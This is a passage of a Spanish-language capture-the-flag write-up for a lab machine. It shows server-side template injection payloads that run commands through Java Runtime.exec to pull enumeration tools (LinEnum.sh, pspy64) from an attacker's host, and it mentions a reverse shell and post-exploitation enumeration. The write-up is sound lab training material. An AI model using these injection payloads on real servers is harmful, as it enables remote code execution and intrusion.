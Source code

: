 
`wget` o `curl` para esto, tambien dejo ur [recurso] para que investigues mas del tema.

[recurso]: https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/

```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://10.10.14.40:8000/LinEnum.sh")}
```
Podemos darle permisdo desde aqui o desde la reverse-shell.
{:.note}


```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://10.10.14.40:8000/pspy64")}
```

Y por ultimo hacemos el tratamiento de la [tty] para poder movernos por el servidor 

trankilamente dejo el link a hacktrick para que sepas mas del tema.

[tty]: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys 


Lo tipico hacemos aki whoami, id me permite averiguar si el usuario actual pertenece al grupo logs 

ademas de ver la flag de user que esta en la ruta `/home/wookdenk` . 

Una búsqueda rápida en los procesos actuales con `LinEnum`  , `pspy64`  o `ps aux | grep root`  ,nos 

permite encontrar que la aplicación de la interfaz web es de panda_search-0.0.1-SNAPSHOT.jar. 

Al buscar los archivos propiedad del grupo logs, me he dado cuenta de que /opt/panda_search/redpanda.log. 

También tenemos acceso de lectura y escritura en /tmp y /home/woodenk/.


![list](/assets/img/redpanda/Arch-2022-08-31-16-26-48.png){:.lead width="800" height="100" loading="lazy"}


Husmeando por ahi nos encontramos con una base de datos pero no lleva a nada interesante.


![list](/assets/img/redpanda/Arch-2022-08-31-16-20-19.png){:.lead width="800" height="100" loading="lazy"}


[Hacktricks]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
[Blog]: https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings
